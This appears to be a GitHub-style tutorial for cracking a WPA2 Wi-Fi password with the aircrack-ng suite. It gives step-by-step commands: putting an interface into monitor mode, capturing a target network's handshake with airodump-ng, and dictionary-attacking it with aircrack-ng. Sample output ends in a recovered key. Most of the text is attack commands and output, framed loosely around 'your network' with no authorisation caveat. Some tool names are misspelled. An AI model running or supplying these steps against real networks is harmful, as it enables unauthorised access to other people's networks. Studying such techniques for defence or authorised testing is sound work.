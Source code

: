 

### Crack wifi hotspot

⚠ most of the steps described here are to be run in super user mode

#### _I_ - Prerequisites
check that you have `airocrack` installed on your machine

#### _II_ - check your interfaces 
run  `airmon-ng` and chose a network interface, I used the one that says `[phy0]`. On my machine it was `wlp2s0`.

#### _III_ - Start an interface in monitor mode
run `airmon-ng start <your-interface> 9`
`9` is to start it in monitor mode.

I got this error 

```plaintext
Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode
```

I this case we can run `airmon-ng check kill`

Then we can try starting it again. (be careful the name is likely to have changed. Mine went from `wlp2s0` to `wlp2s0mon`)

#### _IV_ - Capture data

Now you want to get the mac address of the network you're trying to attack.

To do so you can run `airdump-ng <your-interface>`.

Find your network's BSSID (the MAC address of your Wi-Fi access point) and channel from the list.

#### _V_ - Capture packets

Now you will target your network specificaly :

```
airodump-ng -w psk --bssid <your_BSSID> -c <your_channel> <your_wireless_interface>
```

`BSSID` is the mac address of the network you're attacking.
`-w psk` will give us `.psk` files as output.
`your channel` is if you know the channel of the network, if not specified airodump will try different channels continuously.

The output will look like this :

```plaintext
CH  5 ][ Elapsed: 2 mins ][ 2023-12-02 09:05

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 70:FC:8C:35:B0:9B  -42      192      111    0  11  195   WPA2 CCMP   PSK  <Name-of-the-network>

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 70:FC:8C:35:B0:9B  04:52:F1:27:F0:DE  -54   24e-24      0        4
 70:FC:8C:35:B0:9B  40:06:A3:59:7C:F9  -48   24e- 6      0       21
 70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -30    1e- 1      0      157
 70:FC:8C:35:B0:9B  72:DB:3B:E3:E8:C9  -51    1e- 6e     0       52
```

This line is your network :

```plaintext
70:FC:8C:35:B0:9B  -42      192      111    0  11  195   WPA2 CCMP   PSK  <Name-of-the-network>
```

Thoses lines are the devices connected :

```plaintext
70:FC:8C:35:B0:9B  04:52:F1:27:F0:DE  -54   24e-24      0        4
70:FC:8C:35:B0:9B  40:06:A3:59:7C:F9  -48   24e- 6      0       21
70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -30    1e- 1      0      157
70:FC:8C:35:B0:9B  72:DB:3B:E3:E8:C9  -51    1e- 6e     0       52
```

If it is empty you have to be patient and wait that someone connects.

#### _V_ - Wait for handshake

The thing you are waiting for is a 4-way-handshake in order to bruteforce the password locally.

Two ways to know you have got one :

The header will state :

```plaintext
CH 11 ][ Elapsed: 1 min ][ 2023-12-02 09:07 ][ WPA handshake: 70:FC:8C:35:B0:9B
```

A line will state `EAPOL` :

```
70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -25    1e- 1      0      491  EAPOL
```

One you have this you can quit `airodump`.


#### _VI_ - Bruteforce the password

What you could do is to open wireshark, filter for `eapol`, find the hash and bruteforce it with hashcat, but the airocrack suite gives us tools to do it more quickly. Just run :

```plain
aircrack-ng -w password.tkt -b <your-bssid> psk*.cap
```

`password.txt` is your dictionary,
`<your-bssid>` is the mac address of the network.

```plaintext
Reading packets, please wait...
Opening psk-02.cap
Opening psk-01.cap
Opening psk-03.cap
Read 1062 packets.

1 potential targets

Resetting EAPOL Handshake decoder state.

                               Aircrack-ng 1.7

      [00:00:00] 2/12 keys tested (48.49 k/s)

      Time left: 0 seconds                                      16.67%

                       KEY FOUND! [ password1234 ]


      Master Key     : D0 9F 67 F5 88 CD 93 87 B9 C7 93 30 7A 94 CF 49
                       EA A5 78 A9 E2 F3 94 F2 42 A0 41 E8 E4 EF F8 55

      Transient Key  : 94 9C 2F 22 2A BD 03 19 A3 6D 07 0C 71 02 73 27
                       97 22 A3 69 E0 EA CC 95 2B 65 F3 64 AF C3 5A 81
                       5B 38 61 FA AC C8 CE 8B D9 C7 C8 AD 29 99 17 C4
                       23 4C C3 C6 93 6A CA 48 D9 42 2B 0B C6 F3 79 01

      EAPOL HMAC     : D2 9D 64 48 FE AB 29 88 27 F1 4E 35 E9 66 A1 3F
```


[How to crack wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

#### _VII_ - Put your interface back in normal mode

Stop your monitor mode interface : 
`airmon-ng stop <monitor interface>`

Restart your NetworkManager :
`sudo systemctl start NetworkManager`